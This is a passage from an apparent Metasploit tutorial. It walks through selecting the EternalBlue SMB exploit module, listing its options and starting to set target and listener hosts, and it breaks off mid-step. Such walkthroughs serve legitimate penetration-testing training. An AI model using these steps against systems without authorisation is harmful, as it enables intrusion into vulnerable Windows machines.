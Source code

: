     Step 5:
    Specify and select the module for your situation, for this it is:
    module 0 - exploit/windows/smb/ms17_010_eternalblue

    To select the module you want to use enter the following command:

    use exploit/windows/smb/ms17_010_eternalblue

    or 

    use 0

<br>

Note, you can skip the search section of step 4 by using the command:

`use /full/pathto/module`

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit5.png)

    Step 6:
    You will notice that your module is loaded into the command line which 
    tells you which module you are working with as you use Metasploit.

    Every module has specific options for use, enter the following to see 
    the selected module options:

    show options

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit6.png)

    Step 7:
    For this module, I need to set up some options like RHOSTS and LHOSTS. 
    For this particular vulnerability, I do not need to set the optional 
    selections. The other options that are require are already set to 
    default and will work for our use.

    Enter the following command to change the RHOSTS and LHOSTS:

    set rhosts <DOMAIN,IP,HOST>
